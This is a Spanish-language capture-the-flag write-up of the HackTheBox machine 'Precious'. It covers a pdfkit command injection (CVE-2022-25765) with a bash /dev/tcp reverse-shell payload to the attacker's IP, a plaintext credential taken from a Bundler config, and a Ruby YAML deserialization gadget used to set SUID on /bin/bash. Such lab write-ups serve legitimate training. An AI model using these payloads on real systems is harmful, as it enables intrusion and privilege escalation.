



# Precious

`Precious` es una máquina Linux de dificultad fácil que se centra en el lenguaje "Ruby". Alberga una aplicación web "Ruby" personalizada que utiliza una biblioteca obsoleta, concretamente pdfkit, que es vulnerable a "CVE-2022-25765", lo que lleva a un shell inicial en la máquina de destino. Después de un pivote que utiliza credenciales de texto sin formato que se encuentran en un archivo "config" del repositorio Gem, el cuadro concluye con un ataque de deserialización inseguro en un script "Ruby" personalizado y obsoleto.

<figure><figcaption></figcaption></figure>

***

## Reconnaissance

Realizaremos un reconocimiento con **nmap** para ver los puertos que están expuestos en la máquina **Precious**. Este resultado lo almacenaremos en un archivo llamado `allPorts`.

```bash
❯ nmap -p- --open -sS --min-rate 1000 -vvv -Pn -n 10.10.11.189 -oG allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.95 ( https://nmap.org ) at 2025-02-14 22:04 CET
Initiating SYN Stealth Scan at 22:04
Scanning 10.10.11.189 [65535 ports]
Discovered open port 22/tcp on 10.10.11.189
Discovered open port 80/tcp on 10.10.11.189
Completed SYN Stealth Scan at 22:04, 12.67s elapsed (65535 total ports)
Nmap scan report for 10.10.11.189
Host is up, received user-set (0.100s latency).
Scanned at 2025-02-14 22:04:14 CET for 12s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 12.78 seconds
           Raw packets sent: 65540 (2.884MB) | Rcvd: 65547 (2.622MB)
```

A través de la herramienta de [`extractPorts`](https://pastebin.com/X6b56TQ8), la utilizaremos para extraer los puertos del archivo que nos generó el primer escaneo a través de `Nmap`. Esta herramienta nos copiará en la clipboard los puertos encontrados.

```bash
❯ extractPorts allPorts

[*] Extracting information...

	[*] IP Address: 10.10.11.189
	[*] Open ports: 22,80

[*] Ports copied to clipboard
```

Lanzaremos scripts de reconocimiento sobre los puertos encontrados y lo exportaremos en formato oN y oX para posteriormente trabajar con ellos. En el resultado, comprobamos que se encuentran abierta una página web de `Nginx`.

```bash
❯ nmap -sCV -p22,80 10.10.11.189 -A -oN targeted -oX targetedXML
Starting Nmap 7.95 ( https://nmap.org ) at 2025-02-14 22:04 CET
Nmap scan report for precious.htb (10.10.11.189)
Host is up (0.060s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 84:5e:13:a8:e3:1e:20:66:1d:23:55:50:f6:30:47:d2 (RSA)
|   256 a2:ef:7b:96:65:ce:41:61:c4:67:ee:4e:96:c7:c8:92 (ECDSA)
|_  256 33:05:3d:cd:7a:b7:98:45:82:39:e7:ae:3c:91:a6:58 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-title: Convert Web Page to PDF
| http-server-header: 
|   nginx/1.18.0
|_  nginx/1.18.0 + Phusion Passenger(R) 6.0.15
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.19, Linux 5.0 - 5.14
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   113.74 ms 10.10.16.1
2   31.05 ms  precious.htb (10.10.11.189)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.51 seconds
```

Transformaremos el archivo generado `targetedXML` para transformar el XML en un archivo HTML para posteriormente montar un servidor web y visualizarlo.

```bash
❯ xsltproc targetedXML > index.html

❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Accederemos a[ http://localhost](http://localhost) y verificaremos el resultado en un formato más cómodo para su análisis.

<figure><figcaption></figcaption></figure>

Añadiremos la siguiente entrada en nuestro archivo `/etc/hosts`.

```bash
❯ cat /etc/hosts | grep 10.10.11.189
10.10.11.189 precious.htb
```

## Web Enumeration

Realizaremos una comprobación de las tecnologías que utiliza el sitio web.

```bash
❯ whatweb http://precious.htb/
http://precious.htb/ [200 OK] Country[RESERVED][ZZ], HTML5, HTTPServer[nginx/1.18.0 + Phusion Passenger(R) 6.0.15], IP[10.10.11.189], Ruby-on-Rails, Title[Convert Web Page to PDF], UncommonHeaders[x-content-type-options], X-Frame-Options[SAMEORIGIN], X-Powered-By[Phusion Passenger(R) 6.0.15], X-XSS-Protection[1; mode=block], nginx[1.18.0]
```

Accederemos a http://precious.htb y verificaremos el siguiente contenido. Por lo que parece ser, es un convertidor de una página web a PDF. Se nos proporciona un `input` en donde indicarle a la aplicación la URL que queramos convertir.

<figure><figcaption></figcaption></figure>

Realizaremos una enumeración de páginas y directorios y no logramos encontrar ninguna información relevante.

```bash
❯ dirsearch -u 'http://precious.htb' -t 50 -i 200 2>/dev/null

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 50 | Wordlist size: 11460

Output File: /home/kali/Desktop/HackTheBox/Linux/Precious/Precious/reports/http_precious.htb/_25-02-14_22-06-33.txt

Target: http://precious.htb/

[22:06:33] Starting: 

Task Completed
```

Dado que podemos indicarle una URL a la aplicación web, probaremos de levantar un servidor web en nuestro equipo para verificar cómo funciona por detrás la aplicación.

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

En la página web indicaremos nuestro servidor web y le daremos a la opción de `Submit`.

<figure><figcaption></figcaption></figure>

Al interceptar la solicitud en `BurpSuite` para verificar cómo es el funcionamiento, verificamos que lo que se tramita por `POST` es el siguiente contenido a través de la variable `url`.

<figure><figcaption></figcaption></figure>

Al tramitar la solicitud, verificamos en la respuesta por parte del servidor que se ha generado un `PDF`. También podemos revisar en las mismas cabeceras que utiliza `Ruby` y `Phusion Passenger`, un servidor de aplicaciones que admite aplicaciones **Ruby, Python, Node y Meteor**.

<figure><figcaption></figcaption></figure>

## Initial Foothold

### Pdfkit v0.8.6 Exploitation - Command Injection (CVE-2022-257655)

Verificaremos que se nos ha descargado el `PDF` de la exportación de nuestro servidor a PDF. Al analizar el archivo a través de `exiftool`, comprobamos que el PDF se genera a través de `pdfkit v0.8.6`.

```bash
❯ file uayiccmp9103ufhdnry75mvilqjlx9yg.pdf
uayiccmp9103ufhdnry75mvilqjlx9yg.pdf: PDF document, version 1.4, 1 page(s)
❯ exiftool uayiccmp9103ufhdnry75mvilqjlx9yg.pdf
ExifTool Version Number         : 13.10
File Name                       : uayiccmp9103ufhdnry75mvilqjlx9yg.pdf
Directory                       : .
File Size                       : 38 kB
File Modification Date/Time     : 2025:02:14 22:08:47+01:00
File Access Date/Time           : 2025:02:14 22:09:19+01:00
File Inode Change Date/Time     : 2025:02:14 22:09:14+01:00
File Permissions                : -rw-rw-r--
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.4
Linearized                      : No
Page Count                      : 1
Creator                         : Generated by pdfkit v0.8.6
```

Revisando posibles vulnerabilidades de `pdfkit`, nos encontramos con el siguiente `CVE-2022-25765`.




El paquete pdfkit de la versión 0.0.0 es vulnerable a la inyección de comandos cuando la URL no está correctamente desinfectada.


Por otro lado, nos encontramos con el siguiente blog en el cual mencionan con un PoC el cómo se genera esta vulnerabilidad.



Revisando por Internet, nos encontramos con el siguiente repositorio de GitHub que realiza la explotación automáticamente.



En el código del script de la explotación de la vulnerabilidad, verificamos cómo funciona por detrás el payload. Básicamente, si el parámetro proporcionado contiene un carácter codificado en URL y una cadena de sustitución de comando de shell, se incluirá en el comando que `PDFKit` ejecuta para representar el PDF.

<figure><figcaption></figcaption></figure>

Para recibir acceso a la máquina, nos pondremos en escucha con `nc`.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
```

Ejecutaremos el exploit del repositorio de GitHub indicado. Indicaremos el `target` vulnerable y nuestra dirección y puerto dónde recibiremos la Reverse Shell.

```bash
❯ python3 CVE-2022-25765.py -t http://precious.htb -a 10.10.16.7 -p 443
[*] Input target address is http://precious.htb
[*] Input address for reverse connect is 10.10.16.7
[*] Input port is 443
[!] Run the shell... Press Ctrl+C after successful connection
```

Verificamos que hemos ganado acceso correctamente al equipo.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.7] from (UNKNOWN) [10.10.11.189] 57722
bash: cannot set terminal process group (679): Inappropriate ioctl for device
bash: no job control in this shell
ruby@precious:/var/www/pdfapp$ 
```

Para probar la explotación manualmente y entender el funcionamiento del exploit anterior, realizamos la siguiente prueba.

Desde la URL vulnerable, le inyectamos el comando `id` aprovechándonos de la variable `name` que es la que no sanitiza correctamente lo que introduce el usuario.

```bash
http://10.10.16.7/?name=%20`id`
```

<figure><figcaption></figcaption></figure>

Verificaremos que al realizar la conversión de la Web page a PDF, se nos muestra el comando ejecutado en el mismo PDF, esto debido al `Command Injection`.

<figure><figcaption></figcaption></figure>

Para realizar una Reverse Shell realizando la explotación manual, realizaremos los siguientes pasos. Nos pondremos en escucha con `nc` para recibir la Reverse Shell.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
```

Desde `BurpSuite` interceptaremos la solicitud al darle a `Submit` después de indicarle la URL. Indicaremos el siguiente payload para proporcionarnos la Reverse Shell.

```bash
http://10.10.16.7/?name=%20`bash -c "bash -i >& /dev/tcp/10.10.16.7/443 0>&1"`
```

<figure><figcaption></figcaption></figure>

Comprobaremos que hemos conseguido realizar el `Command Injection` y hemos recibido correctamente la Reverse Shell.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.7] from (UNKNOWN) [10.10.11.189] 34626
bash: cannot set terminal process group (679): Inappropriate ioctl for device
bash: no job control in this shell
ruby@precious:/var/www/pdfapp$ 
```

## Initial Access

### Information Leakage

Nos encontramos actualmente con el usuario`ruby`, el cual investigando su directorio personal, logramos encontrar un archivo el cual parece contener las credenciales del usuario `henry`.

```bash
ruby@precious:~$ ls -la
total 28
drwxr-xr-x 4 ruby ruby 4096 Feb 14 16:09 .
drwxr-xr-x 4 root root 4096 Oct 26  2022 ..
lrwxrwxrwx 1 root root    9 Oct 26  2022 .bash_history -> /dev/null
-rw-r--r-- 1 ruby ruby  220 Mar 27  2022 .bash_logout
-rw-r--r-- 1 ruby ruby 3526 Mar 27  2022 .bashrc
dr-xr-xr-x 2 root ruby 4096 Oct 26  2022 .bundle
drwxr-xr-x 4 ruby ruby 4096 Feb 14 16:09 .cache
-rw-r--r-- 1 ruby ruby  807 Mar 27  2022 .profile
ruby@precious:~$ cd .bundle/
ruby@precious:~/.bundle$ ls -l
total 4
-r-xr-xr-x 1 root ruby 62 Sep 26  2022 config
ruby@precious:~/.bundle$ cat config 
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"
```

Tratamos de acceder con las credenciales obtenidas del usuario`henry` y verificamos del correcto acceso y de la visualización de la flag de **user.txt**.

```bash
ruby@precious:~/.bundle$ su henry
Password: 
henry@precious:/home/ruby/.bundle$ cat /home/henry/user.txt 
0c1e200d2***********************
```

## Privilege Escalation

### Abusing sudoers privilege - YAML Desarialization Attack

Revisaremos los grupos de los que forma parte el usuario actual y si disponemos de algún permiso de `sudoers`. Al verificar los privilegios de `sudoers`, nos encontramos que podemos ejecutar como `sudo` sin proporcionar credenciales el script que se encuentra en `/opt/update_dependencies.rb`.

```bash
henry@precious:~$ id
uid=1000(henry) gid=1000(henry) groups=1000(henry)
henry@precious:~$ sudo -l
Matching Defaults entries for henry on precious:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
```

El script compara las versiones de las dependencias instaladas con las que están definidas en `dependencies.yml`. Primero, carga la lista del archivo `YAML` y obtiene la lista de gems locales. Luego, recorre ambas listas y muestra si las versiones coinciden o no

```bash
henry@precious:~$ cat /opt/update_dependencies.rb
# Compare installed dependencies with those specified in "dependencies.yml"
require "yaml"
require 'rubygems'

# TODO: update versions automatically
def update_gems()
end

def list_from_file
    YAML.load(File.read("dependencies.yml"))
end

def list_local_gems
    Gem::Specification.sort_by{ |g| [g.name.downcase, g.version] }.map{|g| [g.name, g.version.to_s]}
end

gems_file = list_from_file
gems_local = list_local_gems

gems_file.each do |file_name, file_version|
    gems_local.each do |local_name, local_version|
        if(file_name == local_name)
            if(file_version != local_version)
                puts "Installed version differs from the one specified in file: " + local_name
            else
                puts "Installed version is equals to the one specified in file: " + local_name
            end
        end
    end
end
```

Al analizar posibles vulnerabilidades del script de Ruby, nos encontramos con un problema de **deserialización** que se explica a continuación.

<figure><figcaption></figcaption></figure>

Lo primero será lograr identificar la versión de `Ruby` que tiene instalada el equipo víctima.

```bash
henry@precious:~$ /usr/bin/ruby -v
ruby 2.7.4p191 (2021-07-07 revision a21a3b7d23) [x86_64-linux-gnu]
```

En la página de `PayloadsAllTheThings` nos encontramos con diferentes métodos de abusar de esta **deserialización en Ruby**.

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Insecure%20Deserialization/Ruby.md" %}

A través del siguiente `dependencies.yml` malicioso, lo que realizaremos es que consiga ejecutar el comando `id` para verificar si funciona correctamente el **Deserialization Attack**.

```bash
henry@precious:~$ cat dependencies.yml 
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: id
         method_id: :resolve
```

Al ejecutar el script de **Ruby**, verificamos que carga el archivo malicioso y finalmente se muestra la ejecución del comando inyectado, y se verifica que el usuario que ejecuta el comando es el usuario `root`.

```bash
henry@precious:~$ sudo /usr/bin/ruby /opt/update_dependencies.rb
sh: 1: reading: not found
uid=0(root) gid=0(root) groups=0(root)
Traceback (most recent call last):
	33: from /opt/update_dependencies.rb:17:in `<main>'
	32: from /opt/update_dependencies.rb:10:in `list_from_file'
```

Por lo tanto, ya que el usuario que ejecuta el comando es `root`, lo que trataremos es de realizar lo siguiente.

A través del siguiente archivo `dependencies.yml` malicioso, lo que realizaremos es modificar el binario de `/bin/bash` para darle permisos de `SUID` y así lograr convertirnos en usuario `root`. Verificaremos los permisos actuales del binario`/bin/bash` el cual `root` es propietario.

```bash
henry@precious:~$ cat dependencies.yml 
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: chmod u+s /bin/bash
         method_id: :resolve
         
henry@precious:~$ ls -l /bin/bash
-rwxr-xr-x 1 root root 1234376 Mar 27  2022 /bin/bash
```

Una vez modificado nuestro archivo `dependencies.yml` en el directorio actual, ejecutaremos el script de **Ruby**. Analizaremos los permisos del binario `/bin/bash` y comprobaremos que se le han asignado permisos de `SUID`.

```bash
henry@precious:~$ sudo /usr/bin/ruby /opt/update_dependencies.rb
sh: 1: reading: not found
Traceback (most recent call last):
	33: from /opt/update_dependencies.rb:17:in `<main>'
	32: from /opt/update_dependencies.rb:10:in `list_from_file'
	31: from /usr/lib/ruby/2.7.0/psych.rb:279:in `load'
	30: from /usr/lib/ruby/2.7.0/psych/nodes/node.rb:50:in `to_ruby'
	29: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:32:in `accept'
	28: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:6:in `accept'
	27: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:16:in `visit'
	26: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:313:in `visit_Psych_Nodes_Document'
	25: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:32:in `accept'
	24: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:6:in `accept'
	23: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:16:in `visit'
	22: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:141:in `visit_Psych_Nodes_Sequence'
	21: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:332:in `register_empty'
	20: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:332:in `each'
	19: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:332:in `block in register_empty'
	18: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:32:in `accept'
	17: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:6:in `accept'
	16: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:16:in `visit'
	15: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:208:in `visit_Psych_Nodes_Mapping'
	14: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:394:in `revive'
	13: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:402:in `init_with'
	12: from /usr/lib/ruby/vendor_ruby/rubygems/requirement.rb:218:in `init_with'
	11: from /usr/lib/ruby/vendor_ruby/rubygems/requirement.rb:214:in `yaml_initialize'
	10: from /usr/lib/ruby/vendor_ruby/rubygems/requirement.rb:299:in `fix_syck_default_key_in_requirements'
	9: from /usr/lib/ruby/vendor_ruby/rubygems/package/tar_reader.rb:59:in `each'
	8: from /usr/lib/ruby/vendor_ruby/rubygems/package/tar_header.rb:101:in `from'
	7: from /usr/lib/ruby/2.7.0/net/protocol.rb:152:in `read'
	6: from /usr/lib/ruby/2.7.0/net/protocol.rb:319:in `LOG'
	5: from /usr/lib/ruby/2.7.0/net/protocol.rb:464:in `<<'
	4: from /usr/lib/ruby/2.7.0/net/protocol.rb:458:in `write'
	3: from /usr/lib/ruby/vendor_ruby/rubygems/request_set.rb:388:in `resolve'
	2: from /usr/lib/ruby/2.7.0/net/protocol.rb:464:in `<<'
	1: from /usr/lib/ruby/2.7.0/net/protocol.rb:458:in `write'
/usr/lib/ruby/2.7.0/net/protocol.rb:458:in `system': no implicit conversion of nil into String (TypeError)

henry@precious:~$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1234376 Mar 27  2022 /bin/bash
```

Dado que el binario de `/bin/bash` dispone de `SUID`, podemos convertirnos en `root` como se muestra a continuación. Finalmente logramos visualizar la flag de **root.txt**.

```bash
henry@precious:~$ bash -p
bash-5.1# whoami
root
bash-5.1# cat /root/root.txt
ed3b1080a1**********************
```
